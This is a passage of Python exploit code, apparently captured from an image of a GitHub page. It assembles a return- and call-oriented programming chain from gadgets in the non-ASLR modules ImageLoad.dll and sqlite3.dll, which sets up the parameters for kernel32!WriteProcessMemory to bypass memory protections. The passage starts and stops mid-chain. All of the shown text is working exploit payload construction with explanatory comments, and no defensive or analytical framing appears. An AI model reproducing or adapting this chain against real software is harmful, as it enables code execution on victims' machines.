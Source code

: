 ```python
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)

# Pointing nSize parameter placeholder to actual value of 0x180 (in EDX)
crash += struct.pack('<L', 0x1001f5b4)    # mov dword ptr [ecx], edx

# ECX currently is located at kernel32!WriteProcessMemory parameter placeholder - 0x8
# Need to first extract sqlite3.dll pointer (which is a pointer to kernel32) and then calculate offset from kernel32!GetStartupInfoA

# ECX = kernel32!WriteProcessMemory parameter placeholder + 0x14 (20)
# Decrementing ECX by 0x14 firstly (parameter is 0xc bytes in front of ECX. Subtracting ECX by 0xC to place placeholder in ECX. Additionally, the overwrite gadget writes to ECX at an offset of ECX+0x8. Adding 0x8 more bytes to compensate.)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c27d1b)    # dec ecx ; ret: sqlite3.dll (non-ASLR enabled module)

# Extracting pointer to kernel32.dll into EAX

# EDX contains a value of 0x180 from nSize parameter
# EDI still contains return to stack ROP gadget for COP gadget compensation
# EAX is 0x260 bytes ahead of the kernel32!WriteProcessMemory parameter placeholder
# Subtracting 0x260 from EAX via EDX register
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)

# Loading kernel32!WriteProcessMemory parameter placeholder location into EAX to be dereferenced
crash += struct.pack('<L', 0x10015ce5)    # sub eax, edx ; ret: ImageLoad.dll (non-ASLR enabled module)

# Extracting kernel32!WriteProcessMemory parameter placeholder
```
